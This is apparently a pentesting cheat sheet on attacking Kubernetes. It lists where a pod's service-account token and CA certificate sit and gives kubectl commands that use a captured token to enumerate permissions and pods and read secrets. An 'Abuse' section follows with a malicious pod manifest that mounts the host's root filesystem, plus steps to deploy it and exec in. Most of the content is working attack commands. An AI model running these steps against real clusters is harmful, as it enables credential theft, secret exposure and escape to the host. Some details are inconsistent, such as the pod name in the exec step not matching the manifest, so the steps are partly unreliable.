 ```yaml
---
title: "Kubernetes"
date: 2024-7-22
tags: ["Token-Based Authentication", "File System Permissions Vulnerabilities", "File System Mounting", "Kubernetes", "Container"]
---
```


### Token Location

```console
/run/secrets/kubernetes.io/serviceaccount/token
```

### Certificate Location

```console
/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Basic Commands

```console
# List all namespaces
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get namespaces
```

```console
# Get user permissions in current namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list
```

```console
# Get user permissions in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> auth can-i --list -n <NAMESPACE>
```

```console
# List all pods
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods --all-namespaces
```

```console
# List pods in specific namespace
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pods -n <NAMESPACE>
```

```console
# Get YAML of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get pod <POD_NAME> -o yaml
```

```console
# Get info of a pod
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe pod <POD_NAME> -n <NAMESPACE>
```

```console
# List secrets
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> get secrets -n <NAMESPACE>
```

```console
# Get info of a secret
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> describe secret <SECRET_NAME> -n <NAMESPACE>
```

<small>*Ref: [kubectl](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/)*</small>

---

### Abuse #1: Mount host's file system

#### 1. Create a Malicious YAML (Template)

```console
apiVersion: v1 
kind: Pod
metadata:
  name: alpine
  namespace: <NAMESPACE_NAME>
spec:
  containers:
  - name: test
    image: <IMAGE_NAME>
    command: ["/bin/sh"]
    args: ["-c", "sleep 300000"]
    volumeMounts: 
    - mountPath: /mnt
      name: hostfs
  volumes:
  - name: hostfs
    hostPath:  
      path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

#### 2. Create a new pod

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> apply -f test.yaml
```

#### 3. Execute

```console
kubectl --token <TOKEN> --certificate-authority ca.crt --server <TARGET> exec test --stdin --tty -n <NAMESPACE>
```

```console
# Check host filesystem
cd /mnt/root/
```
